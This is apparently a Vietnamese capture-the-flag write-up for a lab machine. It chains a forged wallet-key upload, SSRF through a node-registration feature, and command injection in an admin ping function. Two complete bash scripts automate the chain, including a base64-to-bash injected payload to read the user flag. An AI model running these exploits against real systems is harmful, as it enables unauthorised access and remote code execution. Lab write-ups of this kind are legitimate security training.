## Tóm tắt chain 

## Step by step 
### User to admin  

- Found `/blockchain` api công khai toàn bộ lịch sử giao dịch 

- Lấy public_key của wallet `94` để có thể truy cập vào khu vực vip 
```code
748a64e1fb347d80a364c5a7ac9ec407fbbe7d44ad6005e42e1e8ebe659bbd2110a75025377886a00d568726059756e86766d0eaf368322c444d6cefc748a346
```
- Tạo `.json` sau đó up lên để tạo wallet rich 

- Sau khi up xong sẽ truy cập vào api vip `dashboard/vip/nodes`


- Testing ssrf với `http://0.0.0.0:8080/admin`


```sh
  BASE=http://10.129.38.187:8080
  JAR=vip-session.txt

  ### 1. Tạo wallet mới

  curl -sS \
    -c "$JAR" \
    -X POST \
    -d 'action=create' \
    -d 'filename=fresh' \
    "$BASE/dashboard/wallet" \
    -o fresh.json
  jq -r '.private_key' fresh.json

  ### 2. Tạo wallet ghép

  RICH_PUBLIC='052502f97f9187ddeefd1eed5f0f0baece2418bffecaab44e0a9f3928ab4f2d7f6da458c2b31fd52f4443f2cc12306ba60e5954c0dbde8faebb64ea43cc2fcd1'

  jq --arg pub "$RICH_PUBLIC" \
    '.public_key = $pub' \
    fresh.json > forged.json

  ### 3. Load wallet VIP

  curl -sS \
    -b "$JAR" \
    -c "$JAR" \
    -F 'action=load' \
    -F 'file=@forged.json' \
    "$BASE/dashboard/wallet" \
    -o load-result.html

  grep -i 'Wallet loaded successfully' load-result.html

  ### 4. Đăng ký node SSRF

  curl -sS \
    -b "$JAR" \
    -c "$JAR" \
    -X POST \
    -d 'action=register' \
    --data-urlencode 'node=http://0.0.0.0:8080/admin' \
    "$BASE/dashboard/vip/nodes" \
    -o register.html

  grep -i 'Node registered' register.html

  ### 5. Lấy Node ID

  curl -sS \
    -b "$JAR" \
    "$BASE/dashboard/vip/nodes" \
    -o nodes.html

  grep -nE '0\.0\.0\.0|testNode' nodes.html

  ### 6. Test SSRF và vào Admin
  curl -sS \
    -b "$JAR" \
    "$BASE/dashboard/vip/nodes/test_node/0" \
    -o admin.html

  grep -i 'Admin Dashboard' admin.html

```



### Web admin to RCE user ( node manager to user flag )

- Từ trang admin lấy được chú ý đến `/admin/node/manage`

- Lợi dụng chức năng ping của node manager ; cmdi để lấy flag user 

- CMDi để chèn command vào lệnh ping của node 

- Reg thêm 1 node nữa để trigger node inject ở trên 

- Lấy action id ; request để thực thi node trigger và lấy flag user 

- Flag is here 


```sh
#!/usr/bin/env bash
set -euo pipefail

# This script assumes an authenticated VIP session already exists.
BASE="${BASE:-http://10.129.38.187:8080}"
JAR="${JAR:-vip-session.txt}"
VPN_IP="${VPN_IP:-10.10.14.206}"

if [ ! -s "$JAR" ]; then
    echo "Cookie jar not found: $JAR" >&2
    echo "Run with JAR=/path/to/vip-session.txt ./user.sh" >&2
    exit 1
fi

register_node() {
    local url="$1"
    curl -fsS -b "$JAR" -c "$JAR" \
        -X POST -d 'action=register' \
        --data-urlencode "node=$url" \
        "$BASE/dashboard/vip/nodes" -o register-last.html
    grep -q 'Node registered' register-last.html
}

list_nodes() {
    curl -fsS -b "$JAR" "$BASE/dashboard/vip/nodes" -o nodes-user.html
    grep -q 'testNode' nodes-user.html
}

CMD='id; cat /home/walter/user.txt'
CMD_B64=$(printf '%s' "$CMD" | base64 -w0)
CMD_NODE="http://foo&echo\$IFS''${CMD_B64}|base64\$IFS''-d|bash&@${VPN_IP}:18083/"

echo "[+] Registering command node"
register_node "$CMD_NODE"

TARGET_ENC=$(CMD_NODE="$CMD_NODE" python3 -c \
    'import os,urllib.parse; print(urllib.parse.quote(os.environ["CMD_NODE"], safe=""))')
ACTION_URL="http://0.0.0.0:8080/admin/nodes/manage?action=ping_node&target=$TARGET_ENC"

echo "[+] Registering ping_node action"
register_node "$ACTION_URL"
list_nodes
 
ACTION_ID=$(grep -oP "testNode\('\K[0-9]+" nodes-user.html | tail -1)
[ -n "$ACTION_ID" ] || { echo "Action node ID not found" >&2; exit 1; }
echo "[+] Action node ID: $ACTION_ID"

curl -fsS -b "$JAR" \
    "$BASE/dashboard/vip/nodes/test_node/$ACTION_ID" \
    -o user-result.html

python3 -c 'import html,re,sys; p=open(sys.argv[1],encoding="utf-8").read(); x="\n".join(html.unescape(v).strip() for v in re.findall(r"<pre[^>]*>(.*?)</pre>",p,re.S) if v.strip()); print(x); raise SystemExit(0 if "uid=1000(walter)" in x else 1)' user-result.html

echo "[+] Walter command execution confirmed"

```


 